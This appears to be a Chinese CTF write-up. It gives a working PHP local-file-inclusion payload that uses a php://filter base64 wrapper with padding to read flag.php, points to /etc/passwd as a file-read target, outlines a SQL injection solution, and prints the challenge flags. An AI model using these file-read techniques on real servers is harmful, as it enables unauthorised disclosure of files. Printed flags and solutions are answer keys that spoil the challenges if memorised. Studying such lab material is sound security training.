<span style="color: #0000BB"><?php <br />highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br />include(</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">[</span><span style="color: #DD0000">"flag"</span><span style="color: #007700">]);<br /></span><span style="color: #FF8000">//flag in /var/www/html/flag.php;</span>
</span>
</code><br />

```

思路 1：让 POST 请求体长度 ≥ 800（最直接）

思路 2：让`$path`不包含 "flag"（适用于长度受限场景）

```php
a=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
&flag=php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php
```

用第一种,得到flag

PD9waHAgPSdOU1NDVEZ7YzQwNGJiMzYtMDEwNS00YTdhLTlhMGMtODQ4YjIxOWRiNDM1fSc7Cg==




## 🏗️ 典型网站目录结构

**text**

```
/var/www/html/              # Web根目录
├── index.php              # 主入口文件
├── flag.php              # 包含flag的文件
├── your_current_file.php  # 你正在访问的文件
└── 其他网页文件、CSS、JS等
```

## 📁 关键目录说明

### **Web相关目录**：

* `/var/www/html/` - **Web根目录**，Apache/Nginx默认从这里提供网页服务
* `/var/www/` - 通常包含所有网站项目
* `/etc/apache2/` 或 `/etc/nginx/` - Web服务器配置文件
* `/var/log/apache2/` 或 `/var/log/nginx/` - Web服务器日志

### **系统重要目录**：

* `/etc/passwd` - 用户账户信息（常用于测试文件读取）
* `/etc/hosts` - 主机名解析
* `/proc/` - 进程信息（可能包含有趣的内容）
* `/tmp/` - 临时文件目录
* `/home/` - 用户主目录

# 37.[SWPUCTF 2021 新生赛]sql



进入是这样的

查看源码发现参数是wllm





发现是字符型注入



报错了,被拦截了



还是报错



发现有3列



发现数据回显位是第二列和第三列



查到库名


查到表名



查到列名



查到一部分flag



又拿到一部分flag



得到最后一部分

完成NSSCTF{cae0af52-b007-4ee7-afe5-eb9116ad9732}
